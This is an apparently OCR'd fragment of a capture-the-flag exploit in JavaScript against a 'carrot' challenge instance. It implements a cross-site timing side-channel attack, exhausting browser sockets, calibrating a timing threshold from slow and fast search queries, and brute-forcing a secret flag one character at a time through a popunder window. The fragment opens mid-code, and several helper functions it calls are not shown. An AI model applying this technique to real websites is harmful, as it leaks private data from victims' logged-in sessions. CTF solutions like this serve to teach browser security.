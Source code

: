 ```html
}

const brute = async (flag) => {
    for (const char of alphabet) {
        if (await oracle(flag + char)) {
            return char;
        }
    }
    return false;
}

const calibrate = async () => {
    return new Promise(async (r) => {
        // slow
        let url1 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=dice{`
        let t1 = await timeit(url1, WINBG)
        console.log(`slow:${t1}`)
        // fast
        let url2 = `https://carrot-${INSTANCE}.mc.ax/tasks?search=XXXXXXXXXX`
        let t2 = await timeit(url2, WINBG)
        console.log(`fast:${t2}`)
        return r((t1 + t2) / 2)
    });

}

const exploit = async(flag = '') => {
    console.log('Starting')
    // dont go to fast plz :) 
    console.log(`waiting 3s`)
    await sleep(3000)
    // exaust sockets
    await exhaust_sockets()
    await sleep(2000)
    LOG = `Calibrating`
    TIMELIMIT = await calibrate()
    LOG = `TIMELIMIT:${TIMELIMIT}`
    console.log(`timelimit:${TIMELIMIT}`)
    await sleep(2000)
    let last;
    while (true) {
        last = await brute(flag);
        if (last === false) {
            return flag;
        } 
        else {
            flag += last;
            output.innerText = flag;
            if(last === '}'){
                return flag
            }
        }
    }
}

const popunder = () => {
    if (window.opener) {
            WINBG = window.opener
    } 
    else {
        WINBG = window.open(location.href, target="_blank")
        location = `about:blank`
    }
```